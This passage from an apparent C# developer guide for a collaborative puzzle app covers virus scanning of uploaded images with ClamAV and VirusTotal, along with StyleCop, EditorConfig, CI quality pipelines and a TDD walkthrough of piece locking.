# docker-compose.yml
services:
  clamav:
    image: clamav/clamav:latest
    ports:
      - "3310:3310"
    volumes:
      - ./clamav/data:/var/lib/clamav
      - ./clamav/config:/etc/clamav
    environment:
      - CLAMAV_NO_FRESHCLAMD=false
      - CLAMAV_NO_CLAMD=false
```

**ClamAV Service Implementation:**
```csharp
public class ClamAvScanService : IVirusScanService
{
    private readonly HttpClient _httpClient;
    private readonly ILogger<ClamAvScanService> _logger;
    private readonly string _clamAvHost;
    private readonly int _clamAvPort;
    
    public ClamAvScanService(
        HttpClient httpClient,
        IConfiguration configuration,
        ILogger<ClamAvScanService> logger)
    {
        _httpClient = httpClient;
        _logger = logger;
        _clamAvHost = configuration["ClamAV:Host"] ?? "localhost";
        _clamAvPort = int.Parse(configuration["ClamAV:Port"] ?? "3310");
    }
    
    public async Task<ScanResult> ScanFileAsync(Stream fileStream, string fileName)
    {
        using var tcpClient = new TcpClient();
        await tcpClient.ConnectAsync(_clamAvHost, _clamAvPort);
        
        using var networkStream = tcpClient.GetStream();
        using var writer = new StreamWriter(networkStream);
        using var reader = new StreamReader(networkStream);
        
        // Send INSTREAM command
        await writer.WriteLineAsync("INSTREAM");
        await writer.FlushAsync();
        
        // Send file data in chunks
        var buffer = new byte[2048];
        int bytesRead;
        
        while ((bytesRead = await fileStream.ReadAsync(buffer, 0, buffer.Length)) > 0)
        {
            // Send chunk size
            var sizeBytes = BitConverter.GetBytes(IPAddress.HostToNetworkOrder(bytesRead));
            await networkStream.WriteAsync(sizeBytes, 0, sizeBytes.Length);
            
            // Send chunk data
            await networkStream.WriteAsync(buffer, 0, bytesRead);
        }
        
        // Send zero-length chunk to indicate end
        var zeroBytes = BitConverter.GetBytes(0);
        await networkStream.WriteAsync(zeroBytes, 0, zeroBytes.Length);
        
        // Read response
        var response = await reader.ReadLineAsync();
        
        return new ScanResult
        {
            IsClean = response?.Contains("OK") ?? false,
            ThreatType = response?.Contains("FOUND") == true 
                ? response.Split(':')[1].Trim() 
                : null,
            ScanEngine = "ClamAV"
        };
    }
}
```

#### 2. VirusTotal API Integration

**Multi-Engine Scanning Service:**
```csharp
public class VirusTotalScanService : IVirusScanService
{
    private readonly HttpClient _httpClient;
    private readonly string _apiKey;
    private readonly ILogger<VirusTotalScanService> _logger;
    
    public VirusTotalScanService(
        HttpClient httpClient,
        IConfiguration configuration,
        ILogger<VirusTotalScanService> logger)
    {
        _httpClient = httpClient;
        _apiKey = configuration["VirusTotal:ApiKey"];
        _logger = logger;
    }
    
    public async Task<ScanResult> ScanFileAsync(Stream fileStream, string fileName)
    {
        // Calculate file hash
        var hash = await CalculateSHA256Async(fileStream);
        fileStream.Position = 0;
        
        // Check if file already scanned
        var existingReport = await GetFileReportAsync(hash);
        if (existingReport != null && existingReport.IsRecent)
        {
            return existingReport;
        }
        
        // Upload file for scanning
        var scanId = await UploadFileAsync(fileStream, fileName);
        
        // Poll for results (implement exponential backoff)
        return await PollForResultsAsync(scanId);
    }
    
    private async Task<string> UploadFileAsync(Stream fileStream, string fileName)
    {
        using var content = new MultipartFormDataContent();
        content.Add(new StreamContent(fileStream), "file", fileName);
        
        var request = new HttpRequestMessage(HttpMethod.Post, "https://www.virustotal.com/api/v3/files")
        {
            Headers = { { "x-apikey", _apiKey } },
            Content = content
        };
        
        var response = await _httpClient.SendAsync(request);
        response.EnsureSuccessStatusCode();
        
        var result = await response.Content.ReadFromJsonAsync<VirusTotalUploadResponse>();
        return result.Data.Id;
    }
    
    private async Task<ScanResult> PollForResultsAsync(string scanId, int maxAttempts = 10)
    {
        for (int i = 0; i < maxAttempts; i++)
        {
            await Task.Delay(TimeSpan.FromSeconds(Math.Pow(2, i))); // Exponential backoff
            
            var request = new HttpRequestMessage(HttpMethod.Get, 
                $"https://www.virustotal.com/api/v3/analyses/{scanId}")
            {
                Headers = { { "x-apikey", _apiKey } }
            };
            
            var response = await _httpClient.SendAsync(request);
            if (response.IsSuccessStatusCode)
            {
                var result = await response.Content.ReadFromJsonAsync<VirusTotalAnalysisResponse>();
                
                if (result.Data.Attributes.Status == "completed")
                {
                    var stats = result.Data.Attributes.Stats;
                    return new ScanResult
                    {
                        IsClean = stats.Malicious == 0,
                        ThreatType = stats.Malicious > 0 ? "Malware" : null,
                        Confidence = (double)stats.Malicious / (stats.Malicious + stats.Undetected),
                        Details = $"{stats.Malicious}/{stats.Harmless + stats.Malicious + stats.Suspicious + stats.Undetected} engines detected threat"
                    };
                }
            }
        }
        
        throw new TimeoutException("Virus scan timed out");
    }
}
```

### Comprehensive File Upload Pipeline

**Secure File Upload with Virus Scanning:**
```csharp
[ApiController]
[Route("api/[controller]")]
public class FileUploadController : ControllerBase
{
    private readonly IVirusScanService _virusScan;
    private readonly IBlobStorageService _blobStorage;
    private readonly ILogger<FileUploadController> _logger;
    
    [HttpPost("puzzle-image")]
    [RequestSizeLimit(10_485_760)] // 10MB limit
    [RequestFormLimits(MultipartBodyLengthLimit = 10_485_760)]
    public async Task<IActionResult> UploadPuzzleImage(IFormFile file)
    {
        // 1. Validate file type
        var allowedTypes = new[] { "image/jpeg", "image/png", "image/gif", "image/webp" };
        if (!allowedTypes.Contains(file.ContentType.ToLower()))
        {
            return BadRequest("Invalid file type");
        }
        
        // 2. Validate file signature (magic bytes)
        using var stream = file.OpenReadStream();
        if (!await ValidateFileSignatureAsync(stream, file.ContentType))
        {
            return BadRequest("File content doesn't match declared type");
        }
        
        // 3. Generate safe file name
        var safeFileName = GenerateSafeFileName(file.FileName);
        
        // 4. Scan for viruses
        stream.Position = 0;
        var scanResult = await _virusScan.ScanFileAsync(stream, safeFileName);
        
        if (!scanResult.IsClean)
        {
            _logger.LogWarning("Malware detected in upload: {FileName}, Threat: {ThreatType}", 
                file.FileName, scanResult.ThreatType);
            
            // Log to security monitoring
            await LogSecurityEventAsync(new SecurityEvent
            {
                Type = "MalwareDetected",
                FileName = file.FileName,
                ThreatType = scanResult.ThreatType,
                UserId = User.GetUserId(),
                IpAddress = HttpContext.Connection.RemoteIpAddress?.ToString()
            });
            
            return BadRequest("File failed security scan");
        }
        
        // 5. Process image (resize, generate thumbnails)
        stream.Position = 0;
        var processedImages = await ProcessPuzzleImageAsync(stream);
        
        // 6. Upload to secure storage
        var urls = new Dictionary<string, string>();
        foreach (var (size, imageData) in processedImages)
        {
            var blobName = $"puzzles/{Guid.NewGuid()}/{size}/{safeFileName}";
            var url = await _blobStorage.UploadImageAsync(
                "puzzle-images", 
                blobName, 
                imageData, 
                file.ContentType);
            
            urls[size] = url;
        }
        
        // 7. Generate puzzle pieces
        var pieceData = await GeneratePuzzlePiecesAsync(processedImages["original"]);
        var pieceDataUrl = await _blobStorage.UploadPieceDataAsync(
            "puzzle-data",
            $"puzzles/{Guid.NewGuid()}/pieces.json",
            JsonSerializer.Serialize(pieceData));
        
        return Ok(new
        {
            success = true,
            imageUrls = urls,
            pieceDataUrl,
            scanResult = new
            {
                scanned = true,
                engine = scanResult.ScanEngine,
                scanTime = DateTime.UtcNow
            }
        });
    }
    
    private async Task<bool> ValidateFileSignatureAsync(Stream stream, string declaredType)
    {
        var signatures = new Dictionary<string, byte[][]>
        {
            ["image/jpeg"] = new[] { new byte[] { 0xFF, 0xD8, 0xFF } },
            ["image/png"] = new[] { new byte[] { 0x89, 0x50, 0x4E, 0x47 } },
            ["image/gif"] = new[] { 
                new byte[] { 0x47, 0x49, 0x46, 0x38, 0x37, 0x61 }, // GIF87a
                new byte[] { 0x47, 0x49, 0x46, 0x38, 0x39, 0x61 }  // GIF89a
            },
            ["image/webp"] = new[] { new byte[] { 0x52, 0x49, 0x46, 0x46 } }
        };
        
        if (!signatures.ContainsKey(declaredType))
            return false;
        
        var buffer = new byte[8];
        await stream.ReadAsync(buffer, 0, buffer.Length);
        stream.Position = 0;
        
        return signatures[declaredType].Any(sig => 
            buffer.Take(sig.Length).SequenceEqual(sig));
    }
    
    private string GenerateSafeFileName(string fileName)
    {
        var extension = Path.GetExtension(fileName);
        var safeName = Regex.Replace(
            Path.GetFileNameWithoutExtension(fileName), 
            @"[^a-zA-Z0-9-_]", 
            "");
        
        return $"{safeName}_{DateTime.UtcNow.Ticks}{extension}";
    }
}
```

### Configuration and Dependency Injection

**Service Registration:**
```csharp
// Program.cs
builder.Services.Configure<FileUploadOptions>(
    builder.Configuration.GetSection("FileUpload"));

// Choose scanning strategy based on environment
if (builder.Configuration["VirusScan:Provider"] == "Azure")
{
    builder.Services.AddSingleton<IVirusScanService, AzureDefenderScanService>();
}
else if (builder.Configuration["VirusScan:Provider"] == "VirusTotal")
{
    builder.Services.AddHttpClient<IVirusScanService, VirusTotalScanService>()
        .AddPolicyHandler(GetRetryPolicy())
        .AddPolicyHandler(GetCircuitBreakerPolicy());
}
else
{
    builder.Services.AddSingleton<IVirusScanService, ClamAvScanService>();
}

// File upload options
public class FileUploadOptions
{
    public long MaxFileSize { get; set; } = 10_485_760; // 10MB
    public string[] AllowedExtensions { get; set; } = { ".jpg", ".jpeg", ".png", ".gif", ".webp" };
    public bool RequireVirusScan { get; set; } = true;
    public int ScanTimeoutSeconds { get; set; } = 30;
}
```

### Monitoring and Alerting

**Security Event Monitoring:**
```csharp
public class SecurityMonitoringService
{
    private readonly ILogger<SecurityMonitoringService> _logger;
    private readonly TelemetryClient _telemetryClient;
    
    public async Task LogMalwareDetectionAsync(MalwareDetectionEvent evt)
    {
        // Log to Application Insights
        _telemetryClient.TrackEvent("MalwareDetected", new Dictionary<string, string>
        {
            ["FileName"] = evt.FileName,
            ["ThreatType"] = evt.ThreatType,
            ["UserId"] = evt.UserId,
            ["IpAddress"] = evt.IpAddress,
            ["ScanEngine"] = evt.ScanEngine
        });
        
        // Send alert if threshold exceeded
        var recentDetections = await GetRecentDetectionsAsync(TimeSpan.FromHours(1));
        if (recentDetections.Count > 5)
        {
            await SendSecurityAlertAsync("High malware detection rate", recentDetections);
        }
    }
}
```

### Best Practices

1. **Defense in Depth**: Combine multiple scanning engines
2. **File Type Validation**: Check both MIME type and magic bytes
3. **Size Limits**: Enforce reasonable file size limits
4. **Quarantine**: Move suspicious files to isolated storage
5. **Monitoring**: Track scan results and detection patterns
6. **Performance**: Use async scanning to avoid blocking uploads
7. **Fallback**: Have a fallback when scan services are unavailable
8. **User Experience**: Provide clear feedback on scan progress

### Cost Optimization

```yaml
Azure Defender for Storage:
  - Pay per GB scanned
  - First 10 GB/month free
  - ~$0.15 per GB after

VirusTotal:
  - Free tier: 4 requests/minute, 500/day
  - Premium: Higher limits, priority scanning
  
ClamAV:
  - Free and open source
  - Requires infrastructure costs
  - No per-scan fees
  
Hybrid Approach:
  - Use ClamAV for initial scan
  - VirusTotal for suspicious files
  - Azure Defender for compliance requirements
```

## 15. How do StyleCop & EditorConfig help code quality? What other tools or systems can help?

Code quality tools enforce consistency, catch bugs early, and maintain professional standards across teams. For enterprise projects like CollaborativePuzzle, these tools are essential for maintainability.

### StyleCop - C# Code Style Analysis

**StyleCop Analyzers** enforce C# coding standards through Roslyn analyzers that run during compilation.

**Installation and Configuration:**
```xml
<!-- Directory.Packages.props -->
<Project>
  <ItemGroup>
    <PackageVersion Include="StyleCop.Analyzers" Version="1.2.0-beta.507" />
  </ItemGroup>
</Project>

<!-- In .csproj files -->
<ItemGroup>
  <PackageReference Include="StyleCop.Analyzers">
    <PrivateAssets>all</PrivateAssets>
    <IncludeAssets>runtime; build; native; contentfiles; analyzers</IncludeAssets>
  </PackageReference>
</ItemGroup>
```

**Custom StyleCop Rules (.ruleset):**
```xml
<?xml version="1.0" encoding="utf-8"?>
<RuleSet Name="CollaborativePuzzle Rules" ToolsVersion="16.0">
  <Rules AnalyzerId="StyleCop.Analyzers" RuleNamespace="StyleCop.Analyzers">
    <!-- Documentation Rules -->
    <Rule Id="SA1600" Action="Warning" /> <!-- Elements must be documented -->
    <Rule Id="SA1633" Action="None" />    <!-- File must have header (disabled) -->
    
    <!-- Ordering Rules -->
    <Rule Id="SA1200" Action="Warning" /> <!-- Using directives must be inside namespace -->
    <Rule Id="SA1210" Action="Warning" /> <!-- Using directives must be ordered -->
    
    <!-- Naming Rules -->
    <Rule Id="SA1300" Action="Error" />   <!-- Element must begin with upper case -->
    <Rule Id="SA1303" Action="Error" />   <!-- Const field names must begin with upper case -->
    
    <!-- Maintainability Rules -->
    <Rule Id="SA1401" Action="Error" />   <!-- Fields must be private -->
    <Rule Id="SA1404" Action="Warning" /> <!-- Code analysis suppression must have justification -->
    
    <!-- Layout Rules -->
    <Rule Id="SA1500" Action="Warning" /> <!-- Braces for multi-line statements must not share line -->
    <Rule Id="SA1501" Action="None" />    <!-- Statement must not be on single line (too strict) -->
    
    <!-- Readability Rules -->
    <Rule Id="SA1101" Action="None" />    <!-- Prefix local calls with this (personal preference) -->
    <Rule Id="SA1124" Action="Warning" /> <!-- Do not use regions -->
  </Rules>
</RuleSet>
```

**StyleCop Configuration (stylecop.json):**
```json
{
  "$schema": "https://raw.githubusercontent.com/DotNetAnalyzers/StyleCopAnalyzers/master/StyleCop.Analyzers/StyleCop.Analyzers/Settings/stylecop.schema.json",
  "settings": {
    "documentationRules": {
      "companyName": "CollaborativePuzzle Team",
      "copyrightText": "Copyright (c) {companyName}. All rights reserved.",
      "xmlHeader": false,
      "documentInterfaces": true,
      "documentExposedElements": true,
      "documentInternalElements": false
    },
    "orderingRules": {
      "usingDirectivesPlacement": "outsideNamespace",
      "systemUsingDirectivesFirst": true
    },
    "namingRules": {
      "allowedHungarianPrefixes": ["db", "is", "my", "no", "on"]
    },
    "maintainabilityRules": {
      "topLevelTypes": ["class", "interface", "struct", "enum", "delegate"]
    },
    "layoutRules": {
      "newlineAtEndOfFile": "require"
    }
  }
}
```

### EditorConfig - Cross-IDE Code Style

**EditorConfig** ensures consistent coding styles across different editors and IDEs.

**Comprehensive .editorconfig for C# Projects:**
```ini
# EditorConfig is awesome: https://EditorConfig.org
root = true

# All files
[*]
charset = utf-8
indent_style = space
indent_size = 4
insert_final_newline = true
trim_trailing_whitespace = true
end_of_line = lf

# XML project files
[*.{csproj,vbproj,vcxproj,vcxproj.filters,proj,projitems,shproj}]
indent_size = 2

# JSON files
[*.json]
indent_size = 2

# YAML files
[*.{yml,yaml}]
indent_size = 2

# Markdown files
[*.md]
trim_trailing_whitespace = false

# C# files
[*.cs]

# Indentation preferences
csharp_indent_case_contents = true
csharp_indent_switch_labels = true
csharp_indent_labels = flush_left

# New line preferences
csharp_new_line_before_open_brace = all
csharp_new_line_before_else = true
csharp_new_line_before_catch = true
csharp_new_line_before_finally = true
csharp_new_line_before_members_in_object_initializers = true
csharp_new_line_before_members_in_anonymous_types = true
csharp_new_line_between_query_expression_clauses = true

# Space preferences
csharp_space_after_cast = false
csharp_space_after_keywords_in_control_flow_statements = true
csharp_space_between_method_call_parameter_list_parentheses = false
csharp_space_between_method_declaration_parameter_list_parentheses = false
csharp_space_between_parentheses = false

# Wrapping preferences
csharp_preserve_single_line_statements = false
csharp_preserve_single_line_blocks = true

# Using preferences
csharp_using_directive_placement = outside_namespace:warning

# Code style rules
dotnet_style_qualification_for_field = false:warning
dotnet_style_qualification_for_property = false:warning
dotnet_style_qualification_for_method = false:warning
dotnet_style_qualification_for_event = false:warning

# Language keywords vs BCL types preferences
dotnet_style_predefined_type_for_locals_parameters_members = true:warning
dotnet_style_predefined_type_for_member_access = true:warning

# Parentheses preferences
dotnet_style_parentheses_in_arithmetic_binary_operators = always_for_clarity:silent
dotnet_style_parentheses_in_relational_binary_operators = always_for_clarity:silent
dotnet_style_parentheses_in_other_binary_operators = always_for_clarity:silent
dotnet_style_parentheses_in_other_operators = never_if_unnecessary:silent

# Modifier preferences
dotnet_style_require_accessibility_modifiers = always:warning
dotnet_style_readonly_field = true:warning

# Expression preferences
dotnet_style_object_initializer = true:suggestion
dotnet_style_collection_initializer = true:suggestion
dotnet_style_explicit_tuple_names = true:suggestion
dotnet_style_null_propagation = true:suggestion
dotnet_style_coalesce_expression = true:suggestion
dotnet_style_prefer_is_null_check_over_reference_equality_method = true:silent
dotnet_style_prefer_inferred_tuple_names = true:suggestion
dotnet_style_prefer_inferred_anonymous_type_member_names = true:suggestion
dotnet_style_prefer_auto_properties = true:silent
dotnet_style_prefer_conditional_expression_over_assignment = true:silent
dotnet_style_prefer_conditional_expression_over_return = true:silent

# Pattern matching preferences
csharp_style_pattern_matching_over_is_with_cast_check = true:suggestion
csharp_style_pattern_matching_over_as_with_null_check = true:suggestion
csharp_style_prefer_switch_expression = true:suggestion
csharp_style_prefer_pattern_matching = true:silent
csharp_style_prefer_not_pattern = true:suggestion

# Null-checking preferences
csharp_style_throw_expression = true:suggestion
csharp_style_conditional_delegate_call = true:suggestion

# Code quality rules
dotnet_code_quality_unused_parameters = all:warning

# Naming conventions
dotnet_naming_rule.interfaces_should_be_prefixed_with_i.severity = warning
dotnet_naming_rule.interfaces_should_be_prefixed_with_i.symbols = interface_symbols
dotnet_naming_rule.interfaces_should_be_prefixed_with_i.style = prefix_interface_with_i

dotnet_naming_symbols.interface_symbols.applicable_kinds = interface
dotnet_naming_symbols.interface_symbols.applicable_accessibilities = *

dotnet_naming_style.prefix_interface_with_i.required_prefix = I
dotnet_naming_style.prefix_interface_with_i.capitalization = pascal_case
```

### Additional Code Quality Tools

#### 1. SonarAnalyzer for .NET

**Installation:**
```xml
<PackageReference Include="SonarAnalyzer.CSharp" Version="9.12.0.78982">
  <PrivateAssets>all</PrivateAssets>
  <IncludeAssets>runtime; build; native; contentfiles; analyzers</IncludeAssets>
</PackageReference>
```

**Key Features:**
- Bug detection
- Code smell identification
- Security vulnerability scanning
- Cognitive complexity analysis

#### 2. Roslynator

**Comprehensive Code Analysis and Refactoring:**
```xml
<PackageReference Include="Roslynator.Analyzers" Version="4.6.4">
  <PrivateAssets>all</PrivateAssets>
  <IncludeAssets>runtime; build; native; contentfiles; analyzers</IncludeAssets>
</PackageReference>
```

**Configuration (.roslynatorconfig):**
```xml
# Enable all analyzers by default
roslynator_analyzers.enabled_by_default = true

# Configure specific analyzers
roslynator_RCS1090.severity = warning # Add call to ConfigureAwait
roslynator_RCS1077.severity = error   # Optimize LINQ method call
roslynator_RCS1197.severity = none    # Optimize StringBuilder.Append/AppendLine call
```

#### 3. Code Coverage Tools

**Coverlet Integration:**
```xml
<PackageReference Include="coverlet.collector" Version="6.0.0">
  <PrivateAssets>all</PrivateAssets>
  <IncludeAssets>runtime; build; native; contentfiles; analyzers</IncludeAssets>
</PackageReference>
```

**Running with Coverage:**
```bash
# Generate coverage report
dotnet test --collect:"XPlat Code Coverage" --results-directory ./TestResults

# Generate HTML report
reportgenerator -reports:TestResults/*/coverage.cobertura.xml -targetdir:coveragereport -reporttypes:Html
```

#### 4. Security Scanning

**Security Code Scan:**
```xml
<PackageReference Include="SecurityCodeScan.VS2019" Version="5.6.7">
  <PrivateAssets>all</PrivateAssets>
  <IncludeAssets>runtime; build; native; contentfiles; analyzers</IncludeAssets>
</PackageReference>
```

### Integrated Quality Pipeline

**GitHub Actions Workflow:**
```yaml
name: Code Quality

on: [push, pull_request]

jobs:
  quality:
    runs-on: ubuntu-latest
    
    steps:
    - uses: actions/checkout@v3
    
    - name: Setup .NET
      uses: actions/setup-dotnet@v3
      with:
        dotnet-version: 9.0.x
    
    - name: Restore
      run: dotnet restore
    
    - name: Build with analyzers
      run: dotnet build --no-restore /p:TreatWarningsAsErrors=true
    
    - name: Run tests with coverage
      run: dotnet test --no-build --collect:"XPlat Code Coverage"
    
    - name: SonarCloud Scan
      uses: SonarSource/sonarcloud-github-action@master
      env:
        GITHUB_TOKEN: ${{ secrets.GITHUB_TOKEN }}
        SONAR_TOKEN: ${{ secrets.SONAR_TOKEN }}
    
    - name: Upload coverage to Codecov
      uses: codecov/codecov-action@v3
      with:
        file: ./TestResults/*/coverage.cobertura.xml
```

### Pre-commit Hooks

**.pre-commit-config.yaml:**
```yaml
repos:
  - repo: local
    hooks:
      - id: dotnet-format
        name: dotnet format
        entry: dotnet format --verify-no-changes
        language: system
        pass_filenames: false
        
      - id: dotnet-test
        name: dotnet test
        entry: dotnet test --no-build
        language: system
        pass_filenames: false
```

### IDE Integration

**Visual Studio Code settings.json:**
```json
{
  "editor.formatOnSave": true,
  "editor.codeActionsOnSave": {
    "source.fixAll": true,
    "source.organizeImports": true
  },
  "omnisharp.enableRoslynAnalyzers": true,
  "omnisharp.enableEditorConfigSupport": true,
  "csharp.semanticHighlighting.enabled": true,
  "dotnet.completion.showCompletionItemsFromUnimportedNamespaces": true
}
```

### Code Quality Metrics

**Tracking Quality Over Time:**
```csharp
// Custom quality metrics collector
public class CodeQualityMetrics
{
    public int CyclomaticComplexity { get; set; }
    public int LinesOfCode { get; set; }
    public int TechnicalDebt { get; set; }
    public double CodeCoverage { get; set; }
    public int CodeSmells { get; set; }
    public int Bugs { get; set; }
    public int Vulnerabilities { get; set; }
    public string QualityGate { get; set; }
}

// Integration with build pipeline
public class QualityGateCheck
{
    public async Task<bool> CheckQualityGateAsync(CodeQualityMetrics metrics)
    {
        var passed = metrics.CodeCoverage >= 80 &&
                    metrics.Bugs == 0 &&
                    metrics.Vulnerabilities == 0 &&
                    metrics.CodeSmells < 10;
                    
        if (!passed)
        {
            await NotifyTeamAsync("Quality gate failed", metrics);
        }
        
        return passed;
    }
}
```

### Best Practices for Code Quality

1. **Fail Fast**: Treat warnings as errors in CI/CD
2. **Incremental Adoption**: Start with fewer rules, gradually increase
3. **Team Agreement**: Discuss and agree on style rules as a team
4. **Documentation**: Document why specific rules are disabled
5. **Regular Reviews**: Review and update rules quarterly
6. **Automation**: Automate formatting and fixes where possible
7. **Education**: Train team on why rules exist
8. **Pragmatism**: Disable rules that don't add value

### Tool Comparison

```yaml
StyleCop:
  Pros: C#-specific, extensive rules, well-documented
  Cons: Can be overly strict, C# only
  Best for: C# coding standards enforcement

EditorConfig:
  Pros: Cross-language, cross-IDE, simple syntax
  Cons: Limited to basic formatting rules
  Best for: Basic formatting consistency

SonarQube/SonarCloud:
  Pros: Comprehensive analysis, security focus, metrics tracking
  Cons: Requires setup, can be expensive
  Best for: Enterprise code quality management

Roslynator:
  Pros: Extensive refactorings, good performance
  Cons: Can overwhelm with suggestions
  Best for: Code improvement and refactoring

ReSharper/Rider:
  Pros: Powerful analysis, great refactoring tools
  Cons: Performance impact, commercial license
  Best for: Individual developer productivity
```

## 16. What is TDD? How do I think in a TDD-compliant way?

**Test-Driven Development (TDD)** is a software development methodology where tests are written before the actual code. It follows a simple but powerful cycle: Red-Green-Refactor.

### The TDD Cycle



#### 1. RED - Write a Failing Test
Write a test that describes what you want the code to do. The test must fail because the functionality doesn't exist yet.

#### 2. GREEN - Make the Test Pass
Write the minimal amount of code necessary to make the test pass. Don't worry about perfect code yet.

#### 3. REFACTOR - Improve the Code
Now that the test passes, refactor the code to improve its structure, readability, and performance while keeping tests green.

### TDD Example: Puzzle Piece Locking

Let's implement puzzle piece locking functionality using TDD:

**Step 1: Write the First Failing Test (RED)**
```csharp
[Fact]
public async Task LockPiece_WhenPieceIsAvailable_ShouldLockSuccessfully()
{
    // Arrange
    var pieceId = Guid.NewGuid();
    var userId = Guid.NewGuid();
    var sessionId = Guid.NewGuid();
    
    var mockPieceRepo = new Mock<IPieceRepository>();
    mockPieceRepo.Setup(x => x.GetPieceAsync(pieceId))
        .ReturnsAsync(new PuzzlePiece 
        { 
            Id = pieceId, 
            IsLocked = false,
            LockedBy = null 
        });
    
    var service = new PuzzleService(mockPieceRepo.Object);
    
    // Act
    var result = await service.LockPieceAsync(pieceId, userId, sessionId);
    
    // Assert
    result.Should().BeTrue();
    mockPieceRepo.Verify(x => x.UpdatePieceAsync(
        It.Is<PuzzlePiece>(p => p.IsLocked && p.LockedBy == userId)), 
        Times.Once);
}
```

**Step 2: Write Minimal Code to Pass (GREEN)**
```csharp
public class PuzzleService
{
    private readonly IPieceRepository _pieceRepository;
    
    public PuzzleService(IPieceRepository pieceRepository)
    {
        _pieceRepository = pieceRepository;
    }
    
    public async Task<bool> LockPieceAsync(Guid pieceId, Guid userId, Guid sessionId)
    {
        var piece = await _pieceRepository.GetPieceAsync(pieceId);
        
        piece.IsLocked = true;
        piece.LockedBy = userId;
        
        await _pieceRepository.UpdatePieceAsync(piece);
        return true;
    }
}
```

**Step 3: Add More Tests for Edge Cases**
```csharp
[Fact]
public async Task LockPiece_WhenPieceAlreadyLocked_ShouldReturnFalse()
{
    // Arrange
    var pieceId = Guid.NewGuid();
    var userId = Guid.NewGuid();
    var otherUserId = Guid.NewGuid();
    var sessionId = Guid.NewGuid();
    
    var mockPieceRepo = new Mock<IPieceRepository>();
    mockPieceRepo.Setup(x => x.GetPieceAsync(pieceId))
        .ReturnsAsync(new PuzzlePiece 
        { 
            Id = pieceId, 
            IsLocked = true,
            LockedBy = otherUserId 
        });
    
    var service = new PuzzleService(mockPieceRepo.Object);
    
    // Act
    var result = await service.LockPieceAsync(pieceId, userId, sessionId);
    
    // Assert
    result.Should().BeFalse();
    mockPieceRepo.Verify(x => x.UpdatePieceAsync(It.IsAny<PuzzlePiece>()), Times.Never);
}

[Fact]
public async Task LockPiece_WhenPieceNotFound_ShouldThrowException()
{
    // Arrange
    var mockPieceRepo = new Mock<IPieceRepository>();
    mockPieceRepo.Setup(x => x.GetPieceAsync(It.IsAny<Guid>()))
        .ReturnsAsync((PuzzlePiece)null);
    
    var service = new PuzzleService(mockPieceRepo.Object);
    
    // Act & Assert
    await service.Invoking(s => s.LockPieceAsync(Guid.NewGuid(), Guid.NewGuid(), Guid.NewGuid()))
        .Should().ThrowAsync<PieceNotFoundException>();
}
```

**Step 4: Refactor to Handle All Cases (REFACTOR)**
```csharp
public class PuzzleService
{
    private readonly IPieceRepository _pieceRepository;
    private readonly ILogger<PuzzleService> _logger;
    
    public PuzzleService(IPieceRepository pieceRepository, ILogger<PuzzleService> logger)
    {
        _pieceRepository = pieceRepository;
        _logger = logger;
    }
    
    public async Task<bool> LockPieceAsync(Guid pieceId, Guid userId, Guid sessionId)
    {
        var piece = await _pieceRepository.GetPieceAsync(pieceId);
        
        if (piece == null)
        {
            throw new PieceNotFoundException($"Piece {pieceId} not found");
        }
        
        if (piece.IsLocked && piece.LockedBy != userId)
        {
            _logger.LogInformation(
                "User {UserId} attempted to lock piece {PieceId} already locked by {LockedBy}",
                userId, pieceId, piece.LockedBy);
            return false;
        }
        
        piece.IsLocked = true;
        piece.LockedBy = userId;
        piece.LockedAt = DateTime.UtcNow;
        piece.SessionId = sessionId;
        
        await _pieceRepository.UpdatePieceAsync(piece);
        
        _logger.LogInformation(
            "Piece {PieceId} locked by user {UserId} in session {SessionId}",
            pieceId, userId, sessionId);
            
        return true;
    }
}
```

### Thinking in TDD

#### 1. Start with the "What", Not the "How"

**Traditional Thinking:**
"I need to implement a piece locking mechanism with Redis distributed locks..."

**TDD Thinking:**
"What should happen when a user tries to lock a piece?"
- If the piece is available → it should be locked
- If the piece is already locked → it should fail
- If the piece doesn't exist → it should throw an exception

#### 2. Write Tests as Specifications

```csharp
public class PuzzleServiceTests
{
    [Fact]
    public void Constructor_ShouldRequireAllDependencies()
    {
        // This test documents that the service needs these dependencies
        Action act = () => new PuzzleService(null, null);
        act.Should().Throw<ArgumentNullException>();
    }
    
    [Theory]
    [InlineData(100, 10, 10)]   // 100 pieces → 10x10 grid
    [InlineData(500, 25, 20)]   // 500 pieces → 25x20 grid
    [InlineData(1000, 40, 25)]  // 1000 pieces → 40x25 grid
    public void CalculateGridSize_ShouldReturnCorrectDimensions(
        int pieceCount, int expectedCols, int expectedRows)
    {
        // This test documents the business rules for grid calculation
        var result = PuzzleService.CalculateGridSize(pieceCount);
        
        result.Columns.Should().Be(expectedCols);
        result.Rows.Should().Be(expectedRows);
    }
}
```

#### 3. Use Tests to Drive Design

**Test-First Approach Reveals Design Issues:**
```csharp
[Fact]
public async Task MovePiece_ShouldNotifyOtherUsers()
{
    // Writing this test first makes you think:
    // - How do we notify other users?
    // - Should PuzzleService depend on SignalR directly?
    // - Maybe we need an INotificationService abstraction?
    
    var mockNotificationService = new Mock<INotificationService>();
    var service = new PuzzleService(
        mockPieceRepo.Object, 
        mockNotificationService.Object); // This dependency emerged from the test
    
    await service.MovePieceAsync(pieceId, newX, newY);
    
    mockNotificationService.Verify(x => x.NotifyPieceMovedAsync(
        It.IsAny<Guid>(), It.IsAny<PieceMovedEvent>()), Times.Once);
}
```

### TDD Patterns and Best Practices

#### 1. Arrange-Act-Assert (AAA) Pattern
```csharp
[Fact]
public async Task CompletePuzzle_ShouldCalculateCompletionTime()
{
    // Arrange - Set up the test scenario
    var sessionId = Guid.NewGuid();
    var startTime = DateTime.UtcNow.AddMinutes(-30);
    var session = new PuzzleSession { Id = sessionId, StartedAt = startTime };
    
    mockSessionRepo.Setup(x => x.GetSessionAsync(sessionId))
        .ReturnsAsync(session);
    
    // Act - Execute the code under test
    var result = await service.CompletePuzzleAsync(sessionId);
    
    // Assert - Verify the outcome
    result.CompletionTime.Should().BeCloseTo(TimeSpan.FromMinutes(30), 
        precision: TimeSpan.FromSeconds(1));
}
```

#### 2. Test Data Builders
```csharp
public class PuzzleBuilder
{
    private Puzzle _puzzle = new();
    
    public PuzzleBuilder WithId(Guid id)
    {
        _puzzle.Id = id;
        return this;
    }
    
    public PuzzleBuilder WithPieces(int count)
    {
        _puzzle.PieceCount = count;
        _puzzle.Pieces = Enumerable.Range(0, count)
            .Select(i => new PuzzlePiece { Id = Guid.NewGuid() })
            .ToList();
        return this;
    }
    
    public PuzzleBuilder WithDifficulty(PuzzleDifficulty difficulty)
    {
        _puzzle.Difficulty = difficulty;
        return this;
    }
    
    public Puzzle Build() => _puzzle;
    
    // Usage in tests
